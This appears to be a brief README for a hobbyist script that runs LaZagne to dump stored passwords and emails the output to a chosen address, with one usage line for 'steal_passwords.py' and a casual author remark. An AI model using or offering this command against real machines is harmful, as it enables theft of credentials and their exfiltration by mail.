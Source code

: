 # Report-LaZagne-output-to-Mail

# Usage
python steal_passwords.py -f \<from_emailID> -p \<from_emailID_password> -t \<to_emailID>


some of the repositories to somewhat senseless coz i am throwing all what i have learned on my way and combining them to see whether they seem to have different results or just the same as the simple script

